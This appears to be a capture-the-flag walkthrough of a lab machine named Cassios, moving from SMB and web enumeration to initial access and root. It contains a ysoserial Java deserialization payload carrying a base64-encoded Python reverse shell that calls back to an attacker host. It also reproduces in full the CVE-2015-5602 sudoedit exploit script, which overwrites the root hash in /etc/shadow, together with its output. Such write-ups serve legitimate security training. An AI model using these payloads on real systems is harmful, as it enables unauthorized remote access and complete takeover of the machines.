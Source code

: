# Cassios

### Enumeration

```
80/tcp   open  http        Apache httpd 2.4.6 ((CentOS))
| http-methods: 
|   Supported Methods: GET HEAD POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.6 (CentOS)
|_http-title: Landed by HTML5 UP
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: SAMBA)
445/tcp  open  netbios-ssn Samba smbd 4.10.4 (workgroup: SAMBA)
8080/tcp open  http-proxy
```

```
$ smbmap -H 192.168.181.116

$ smbclient \\\\192.168.181.116\\Samantha\ Konstan  
Enter MYGROUP\furkan\'s password: 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Oct 31 18:09:20 2021
  ..                                  D        0  Thu Sep 24 13:38:10 2020
  recycler.ser                        N        0  Wed Sep 23 21:35:15 2020
  readme.txt                          N      478  Thu Sep 24 13:32:50 2020
  spring-mvc-quickstart-archetype     D        0  Thu Sep 24 13:36:11 2020
  thymeleafexamples-layouts           D        0  Thu Sep 24 13:37:09 2020
  resources.html                      N    42713  Thu Sep 24 13:37:41 2020
  pom-bak.xml                         N     2187  Thu Oct  1 16:28:46 2020

                8374272 blocks of size 1024. 6449104 blocks available
```

```
readme.txt

The recycler is a critical piece of our industrial infraestructure.
Please be careful with it!

The .ser file holds all the last data saved from the process, it can
be readed from the upper management dashboard app. 

Remember to set the location of the file to my home directory "~/backups".

Set this directory to share access so the remote system can access the
file via SMB.

Any concerns or suggestions, please reach at samantha@loca.host.

Samantha Konstan
Java Mantainer
```

```
gobuster -> http://192.168.181.116/backup_migrate/

- recycler.tar

WebSecurityConfig.java
    User.withDefaultPasswordEncoder()
    .username("recycler")
    .password("[REDACTED]")
```

on 8080 - When we click save current values, framework creates the recycler.sar file at \~/backups dir. We can access it from smb.

/home/samantha/backups/recycler.ser

When we click Check button on 8080, it reads recycler.ser file. **Insecure Deserialization?**

```
recycle.tar - extracted src dir
src/main/java/com/industrial/recycler/DashboardController.java

public class DashboardController {
	
	String filename = "/home/samantha/backups/recycler.ser";

	@GetMapping("/check")
	public String Check( String name, Model model) {

		Recycler r           = new Recycler();
	    	FileInputStream fis  = null;
	        ObjectInputStream in = null;
	        try {
	            fis = new FileInputStream(filename);
	            in  = new ObjectInputStream(fis);
	            r   = (Recycler) in.readObject();
	            in.close();
...
```

There is not any security checks for the .ser file. We can use it for initial foothold.

### Initial Access

Java object deserialization.&#x20;

https://github.com/frohoff/ysoserial&#x20;

https://book.hacktricks.xyz/pentesting-web/deserialization#exploit&#x20;

https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar

ysoserial-master-8eb5cbfbf6-1.jar

**Base64Encoded:** `export RHOST="192.168.49.181";export RPORT=80;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'`

`java -jar ysoserial-master-8eb5cbfbf6-1.jar CommonsCollections4 "bash -c {echo,ZXhwb3J0IFJIT1NUPSIxOTIuMTY4LjQ5LjE4MSI7ZXhwb3J0IFJQT1JUPTgwO3B5dGhvbiAtYyAnaW1wb3J0IHN5cyxzb2NrZXQsb3MscHR5O3M9c29ja2V0LnNvY2tldCgpO3MuY29ubmVjdCgob3MuZ2V0ZW52KCJSSE9TVCIpLGludChvcy5nZXRlbnYoIlJQT1JUIikpKSk7W29zLmR1cDIocy5maWxlbm8oKSxmZCkgZm9yIGZkIGluICgwLDEsMildO3B0eS5zcGF3bigiL2Jpbi9iYXNoIikn}|{base64,-d}|{bash,-i}" > recycler.ser`

Upload this file to smb.

Then click Check on 8080.

### PrivEsc

```
samantha@cassios tmp]$ sudo -l
sudo -l
Matching Defaults entries for samantha on cassios:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="QTDIR
    KDEDIR"

User samantha may run the following commands on cassios:
    (root) NOPASSWD: sudoedit /home/*/*/recycler.ser
```

Sudo <=1.8.14 Local Privilege Escalation

https://github.com/t0kx/privesc-CVE-2015-5602

**exploit.sh ->**&#x20;

```bash
#!/usr/bin/env bash
# CVE-2015-5602 exploit by t0kx
# https://github.com/t0kx/privesc-CVE-2015-5602

export EDITOR="/tmp/edit"
export FOLDER="${RANDOM}"
export PASSWD=$(printf ${RANDOM} \
		| md5sum \
		| awk '{print $1}')

prepare() {
cat << EOF >> /tmp/edit
#!/usr/bin/env bash
pass="$(printf "%q" $(openssl passwd -1 -salt ${RANDOM} ${PASSWD}))"
sed -i -e  "s,^root:[^:]\+:,root:\${pass}:," \${1}
EOF
}

main() {
	printf "[+] CVE-2015-5602 exploit by t0kx\n"
	printf "[+] Creating folder...\n"
	mkdir -p /home/${USER}/${FOLDER}/
	printf "[+] Creating symlink\n"
	ln -sf /etc/shadow /home/${USER}/${FOLDER}/recycler.ser
	printf "[+] Modify EDITOR...\n"
	prepare && chmod +x ${EDITOR}
	printf "[+] Change root password to: ${PASSWD}\n"
	sudoedit /home/${USER}/${FOLDER}/recycler.ser
	printf "[+] Done\n"
}; main
```

```
[samantha@cassios tmp]$ ./exploit.sh
[+] CVE-2015-5602 exploit by t0kx
[+] Creating folder...
[+] Creating symlink
[+] Modify EDITOR...
[+] Change root password to: e7ccbd117813eee6060129d6f8c76ecb
[+] Done
[samantha@cassios tmp]$ su root
Password: e7ccbd117813eee6060129d6f8c76ecb
```
